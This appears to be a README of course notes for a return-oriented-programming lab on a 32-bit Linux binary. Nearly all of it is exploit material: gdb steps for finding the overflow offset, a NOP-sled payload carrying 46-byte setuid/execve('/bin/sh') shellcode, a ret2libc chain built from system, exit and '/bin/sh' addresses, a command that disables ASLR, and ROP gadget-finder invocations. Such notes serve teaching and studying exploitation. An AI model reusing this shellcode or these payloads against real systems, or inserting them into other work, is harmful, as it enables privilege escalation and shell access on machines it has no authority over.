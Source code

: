 **Userfull debugger commands**

    gdb rop
    disas vulnerable
    break *0x08048456 #instruction after strcpy
    run $(python -c 'print "A"*268')
    x/200xb buffer
    >> 0xbffff230
    info break
    del <brakpoint number>

**Find adress to be replaced**

    run $(python -c 'print "A"*270')

**Buffer overflow**

    run $(python -c 'print "\x90"*222 + "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "\x30\xf2\xff\xbf"')

# malicious code 46 bytes

**Turn off ASLR**
    sudo sysctl -w kernel.randomize_va_space=0

**Find <system> call**

    (gdb) print system
    >> $1 = {<text variable, no debug info>} 0xb7e41da0 <__libc_system>

**Find <exit> call**

    (gdb) print exit
    >> $2 = {<text variable, no debug info>} 0xb7e359d0 <__GI_exit>

**Find "/bin/sh" string in system library**

    (gdb) find &system,+9999999,"/bin/sh"
    x/s *((char**)environ)
    >> 0xb7f629ab

**Call libc**

    run $(python -c 'print "A"*268 + "\xa0\x1d\xe4\xb7" + "\xd0\x59\xe3\xb7" + "\xab\x29\xf6\xb7"')

**Find gadgets**

    https://github.com/salls/angrop
    https://github.com/0vercl0k/rp

    ~/rp/bin/rp-lin-x86 -f ~/B4M36BSY-rop-example/cmake-build-debug/rop -r5

    http://shell-storm.org/blog/Return-Oriented-Programming-and-ROPgadget-tool/
    https://github.com/sashs/Ropper

    ropper --file ./rop --chain execve

